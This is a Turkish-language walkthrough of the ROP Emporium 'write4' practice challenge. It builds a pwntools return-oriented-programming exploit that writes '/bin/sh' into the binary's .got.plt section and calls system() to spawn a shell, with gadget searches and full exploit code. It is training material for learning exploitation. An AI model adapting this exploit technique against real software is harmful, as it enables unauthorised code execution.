 # ROP Emporium `write4` Writeup

![detail](img/detail.png)

![checksec](img/checksec.png)

x64 mimaride dosyamızı indirdikten sonra programımızın sayfasında detaylara bakabiliriz. Kısaca bize `system()` fonksiyonun mevcut olduğunu ancak `/bin/cat flag.txt` stringini içeren bir değişken olmadığı için elle registerlara `/bin/sh` stringini kaydedip daha sonra bunu `system()` fonksiyonumuzun içerisine gönderebileceğimiz söylenmiş. Ancak bir önceki seviyelerden farklı olarak burada komutumuzu bir registera yazdıktan sonra bunu direk kullanmak yerine dinamik olarak yüklenmiş kütüphanelere kaydetmemiz beklenmektedir. Bunun için üzerine yazabilme yetkimiz olan hangi bölümler varmış bakalım.

    readelf -t write4

![.got.plt | .dynamic](img/0.png)

Yazma yetkimizin olduğu ve içerisinde yeteri kadar alan bulunan `.dynamic` ve `.got.plt` olmak üzere iki tane alanımız mevcut. Bu iki adresten birini kullanabiliriz. Şimdi `system` fonksiyonumuzun adresini öğrenelim.

    objdump -d write4 | grep "system"

![system](img/system.png)

Artık argüman görevi görmeyen 2 tane register belirleyip ilkinin üzerine dinamik olarak yüklenen kütüphane adresimizi ve ikinci argümanımızın üzerine `/bin/sh` komutumuzu yazacağız.

```bash

gdb-peda$ ropsearch "pop r14"
Searching for ROP gadget: 'pop r14' in: binary ranges
0x00400890 : (b'415e415fc3')	pop r14; pop r15; ret

```

```python
# ROP Emporium write4 Exploit
from pwn import *

got_plt = p64(0x00601000)
system = p64(0x4005e0)
pop_r14_r15 = p64(0x00400890)

offset = ('A'*40).encode()
bash = "/bin/sh\x00"

payload = offset
payload += pop_r14_r15
payload += got_plt
payload += bash.encode()

```

r14 ve r15 registerları üzerine istediğimiz adres ve komutu yazdık. Ancak komutumuzun `.got.plt` içerisine yazabilmek için `mov r14, r15` komutuna ihtiyacımız var. Ancak böyle bir komutu `ropsearch` ile arattığımızda bulamıyoruz. Ama `objdump` çıktısını dikkatlı incelersek `usefulGadget` isimli bir fonksiyon dikkatimizi çekiyor.

![move r15 to r14](img/r14_r15.png)

Aradığımız işlemi yapan bir komut bulduk :)

```python
# ROP Emporium write4 Exploit
from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x4005e0) # system@plt address
pop_r14_r15 = p64(0x00400890) # pop r14; pop r15; ret
r15_to_r14 = p64(0x00400820) # mov qword ptr [r14], r15

offset = ('A'*40).encode()
bash = "/bin/sh\x00"

payload = offset
payload += pop_r14_r15
payload += got_plt
payload += bash.encode()
payload += r15_to_r14

```

`.got.plt` içerisine `/bin/sh` komutumuzu yazdık artık x64 mimaride ilk argümanı alan `rdi` registerı üzerine `got_plt` adresimizi verdikten sonra `system` fonksiyonumuzu çağırabiliriz. Bunun için öncelikle `pop rdi; ret` işlemi yapan bir gadget var mı bakalım.

```bash

gdb-peda$ ropsearch "pop rdi"
Searching for ROP gadget: 'pop rdi' in: binary ranges
0x00400893 : (b'5fc3')	pop rdi; ret

```

Evet aradığımız işlemi yapan bir adres bulduk. Artık exploitimizin son halini yazabiliriz :)

```python
# ROP Emporium write4 Exploit
from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x4005e0) # system@plt address
pop_r14_r15 = p64(0x00400890) # pop r14; pop r15; ret
r15_to_r14 = p64(0x00400820) # mov qword ptr [r14], r15
pop_rdi = p64(0x00400893) # pop rdi; ret

offset = ('A'*40).encode()
bash = "/bin/sh\x00"

payload = offset
payload += pop_r14_r15
payload += got_plt
payload += bash.encode()
payload += r15_to_r14
payload += pop_rdi
payload += got_plt
payload += system

elf = process('write4')
print (elf.recv())
elf.sendline(payload)
elf.interactive()

```

![exploit](img/exploit.png)


`NOT : ` python3 ' de `str` ve `byte` tipindeki değişkenleri python2 ' de olduğu gibi direk birleştiremiyoruz. Bunun için `str` tipinde olan değişkenimizin sonuna `.encode()` eklememiz gerekmektedir.
